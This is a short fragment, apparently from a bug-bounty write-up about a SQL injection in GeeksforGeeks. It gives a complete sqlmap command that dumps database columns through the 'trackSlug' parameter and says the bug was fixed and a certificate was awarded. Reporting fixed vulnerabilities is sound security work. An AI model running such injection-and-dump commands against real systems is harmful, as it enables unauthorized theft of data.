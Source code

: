`sqlmap -r request.txt --prefix="' " --suffix=' # asd' --technique=B --dbms=mysql --batch --code=200 --threads 10 -v 4 -p "trackSlug" -D gf**** -T The_Table_Name -C column_name --dump `

![]({{ site.url }}/assets/geeks4geeks/sqlmap/2.png)

This bug was fixed and I got a certificate from GeeksforGeeks Team.

